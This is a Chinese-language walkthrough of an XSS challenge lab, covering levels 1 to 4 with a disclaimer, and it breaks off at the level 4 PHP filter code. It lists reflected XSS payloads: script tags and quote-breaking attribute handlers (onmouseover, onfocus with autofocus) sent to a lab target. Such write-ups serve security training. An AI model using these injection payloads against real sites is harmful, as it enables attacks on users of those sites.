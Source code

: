 # XSS 挑战通关笔记

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

# level 1

没什么过滤,直接使用 `<script>alert(123)</script>` 即可

payload: `http://<靶机IP>/level1.php?keyword=test<script>alert(123)</script>`

---

# level 2

![images](../../../assets/img/安全/实验/XSS/1.png)

使用 `">` 构造输入框的闭合

payload: `test"><script>alert(123)</script>`

---

# level 3

使用 `'` 可以闭合

![images](../../../assets/img/安全/实验/XSS/2.png)

构造 input 的 XSS,例如: `<input value=xss onfocus=alert(1) autofocus>`

payload: `test'onmouseover='alert(1)'`
payload: `test'onfocus='alert(1)' autofocus '`

---

# level 4

```php
$str = $_GET["keyword"];
$str2=str_replace(">","",$str);
$str3=str_replace("<","",$str2);
```
